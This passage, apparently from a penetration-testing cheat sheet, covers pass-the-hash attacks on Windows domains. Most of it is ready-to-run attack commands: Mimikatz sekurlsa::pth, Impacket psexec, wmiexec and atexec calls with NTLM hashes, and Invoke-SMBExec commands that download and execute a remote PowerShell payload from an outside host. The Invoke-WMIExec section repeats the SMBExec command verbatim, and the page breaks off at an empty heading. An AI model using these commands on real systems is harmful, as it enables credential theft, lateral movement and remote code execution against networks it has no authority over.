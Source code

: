 ### **Mimikatz**

**Needs to be run as administrator**

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"' 
```

This will launch a process that will belongs to the users that have launch mimikatz but internally in LSASS the saved credentials are the ones inside the mimikatz parameters. Then, you can access to network resources as if you where that user \(similar to the `runas /netonly` trick but you don't need to know the plain-text password\).

### Pass-the-Hash from linux

You can obtain code execution in Windows machines using Pass-the-Hash from Linux.   
[**Access here to learn how to do it.**](../../pentesting/pentesting-smb.md#execute)\*\*\*\*

### Impacket Windows compiled tools

You can download[ impacket binaries for Windows here](https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.21-dev-binaries).

* **psexec\_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
* **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
* **atexec.exe** \(In this case you need to specify a command, cmd.exe and powershell.exe are not valid to obtain an interactive shell\)`C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
* There are several more Impacket binaries...

### Invoke-TheHash

You can get the powershell scripts from here: [https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

#### Invoke-SMBExec

```text
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```

#### Invoke-WMIExec

```text
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```

#### Invoke-SMBClient

